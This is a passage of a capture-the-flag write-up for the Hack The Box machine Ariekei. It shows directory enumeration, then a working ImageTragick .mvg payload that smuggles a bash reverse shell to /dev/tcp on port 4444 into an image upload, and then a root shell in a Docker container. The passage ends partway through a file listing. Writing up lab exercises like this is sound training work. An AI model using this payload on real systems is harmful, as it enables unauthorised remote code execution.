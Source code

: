 ```bash
+ https://calvin.ariekei.htb/php.ini (CODE:403|SIZE:1618)                                                         
+ https://calvin.ariekei.htb/production.log (CODE:403|SIZE:1618)                                                  
+ https://calvin.ariekei.htb/spamlog.log (CODE:403|SIZE:1618)                                                     
+ https://calvin.ariekei.htb/thumbs.db (CODE:403|SIZE:1618)                                                       
+ https://calvin.ariekei.htb/Thumbs.db (CODE:403|SIZE:1618)                                                       
+ https://calvin.ariekei.htb/upload (CODE:200|SIZE:1656)                                                          
+ https://calvin.ariekei.htb/WS_FTP.LOG (CODE:403|SIZE:1618)
```
we got to /uploads and there is a upload feature.

it appears to ask for an image to upload but we try to get around this. It looks like it could be vulnerable to an ImageTragik exploit.
After alot of reasearch we develop a file with the extension .mvg which will hold or reverse shell
exploit.mvg:
```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|setsid /bin/bash -i>/dev/tcp/your ip/4444 0<&1 2>&1")'ms
pop graphic-context
```

We then upload this with a listener on port 4444 and we get a shell back as root@calvin.

`cat /proc/1/group` shows that we are inside a doker container. This is worth noting for later.

We then head to enumerate files and we find something in `/common`.
```bash
[root@calvin /]# ls
ls
anaconda-post.log
app
bin
common
dev
etc
home
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
[root@calvin /]# cd common
cd common
[root@calvin common]# ls
ls
containers
network
[root@calvin common]# ls -la
ls -la
```